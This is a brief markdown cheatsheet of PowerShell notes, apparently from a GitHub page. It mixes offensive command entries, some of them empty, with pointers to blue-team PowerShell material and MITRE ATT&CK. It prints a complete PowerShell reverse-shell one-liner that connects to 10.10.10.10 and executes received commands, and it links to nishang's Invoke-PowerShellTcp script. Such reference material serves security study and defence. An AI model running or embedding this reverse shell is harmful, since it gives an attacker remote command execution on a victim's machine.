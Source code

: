 ### Common commands cheatsheet
- Download a file - 
- Execute powershell code from URL -
- Powershell reverse shells - https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1, ```$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```
- 
# Important notes
- WMIC will be depricated, Miscorosft is suggesting to stick witk powershell
- SANS course material  -  https://blueteampowershell.com
# Powershell for Defense
MITRE's ATT&CK Matrix for Windows
